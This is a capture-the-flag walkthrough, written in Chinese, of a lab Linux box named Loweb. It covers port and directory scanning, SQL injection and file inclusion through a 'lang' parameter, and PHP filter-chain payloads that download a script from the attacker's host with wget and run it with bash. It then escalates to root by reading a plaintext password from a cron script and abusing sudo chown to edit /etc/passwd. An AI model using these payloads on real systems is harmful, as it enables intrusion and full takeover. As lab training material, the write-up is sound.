









## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Low |

## Nmap

```
[root@kali] /home/kali/Loweb  
❯ nmap 192.168.56.122 -sV -A  -p- 

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 65:bb:ae:ef:71:d4:b5:c5:8f:e7:ee:dc:0b:27:46:c2 (ECDSA)
|_  256 ea:c8:da:c8:92:71:d8:8e:08:47:c0:66:e0:57:46:49 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.62 (Debian)
```

## Gobuster

```
[root@kali] /home/kali/Loweb  
❯ gobuster dir -u http://192.168.56.122 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt             
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.122
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/library              (Status: 301) [Size: 318] [--> http://192.168.56.122/library/]
/server-status        (Status: 403) [Size: 279]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

[root@kali] /home/kali/Loweb  
❯ gobuster dir -u http://192.168.56.122/library -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php,html,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.122/library
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/index.html           (Status: 200) [Size: 1068]
/login                (Status: 301) [Size: 324] [--> http://192.168.56.122/library/login/]
/admin                (Status: 301) [Size: 324] [--> http://192.168.56.122/library/admin/]
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

## SQL Injection

进入登录页面，用户名处存在**SQL注入**





## LFI

注意到**URL**中有一个**lang**参数，尝试进行文件包含



存在**r3dh4ck**用户，查看一下源码

```
http://192.168.56.122/library/admin/index.php?lang=php://filter/convert.base64-encode/resource=../../../../../var/www/html/library/admin/index.php
```



可以直接使用**php filter chains**攻击

- [synacktiv/php\_filter\_chain\_generator](https://github.com/synacktiv/php_filter_chain_generator)

注意！！！！！

这里**URL**不能太长了，要尽量缩短命令的长度。

```
[root@kali] /home/kali/Loweb/php_filter_chain_generator (main) 
❯ python php_filter_chain_generator.py --chain '<?= system("wget 192.168.56.118/s");?>' 

[root@kali] /home/kali/Loweb/php_filter_chain_generator (main) 
❯ python php_filter_chain_generator.py --chain '<?= system("bash s");?>' 
```



## Own r3dh4ck

查看**linpeas**，发现存在**r3dh4ck**的定时任务


查看**/opt/monitor.sh**

```
#!/bin/bash

LOGDIR="/var/log/monitor"
LOGFILE="$LOGDIR/system_monitor_$(date +%Y%m%d%H%M%S).log"

mkdir -p $LOGDIR

echo "=== Monitoring started: $(date) ===" >> $LOGFILE

echo ">> Open ports and associated processes:" >> $LOGFILE
ss -tulpn | grep LISTEN >> $LOGFILE 2>/dev/null

echo -e "\n>> Currently connected users:" >> $LOGFILE
who >> $LOGFILE

echo -e "\n>> System information:" >> $LOGFILE
echo "Hostname: $(hostname)" >> $LOGFILE
echo "Kernel version: $(uname -r)" >> $LOGFILE
echo "Uptime: $(uptime -p)" >> $LOGFILE

echo -e "\n>> Generating simulated credentials for audit:" >> $LOGFILE
SECRET_USER="r3dh4ck"
SECRET_PASS="contraseñaconÑjeje" # Change this password for the future
echo "User: SECRET_USER" >> $LOGFILE
echo "Password: SECRET_PASS" >> $LOGFILE

echo -e "\n>> Possible suspicious processes running:" >> $LOGFILE
ps aux | grep -i 'nc\|netcat\|ncat\|bash\|sh' | grep -v grep >> $LOGFILE

echo -e "\n=== Monitoring finished: $(date) ===" >> $LOGFILE
```

刚好在里面发现了密码：**contraseñaconÑjeje**

但是不能读取**user.txt**



查看特殊权限命令，可以利用**chown**

```
r3dh4ck@loweb:~$ sudo -l
Matching Defaults entries for r3dh4ck on loweb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User r3dh4ck may run the following commands on loweb:
    (ALL) NOPASSWD: /usr/bin/chown
```



## Root

可以直接读取



和这篇文章类似的👇，可以修改**/etc/passwd**添加一个**root**组用户

- [Dockerlabs-r00tless - HYH](https://www.hyhforever.top/dockerlabs-r00tless/)



## Summary

`User`：任意文件包含，通过**filterchains**拿到**www-data**，在定时任务中得到用户密码。

`Root`：由于特殊权限的命令是**chown**，这个命令几乎可以查看任何文件，因此就显得十分简单。可以修改**/etc/passwd**的用户列表，添加一个**root**组用户。
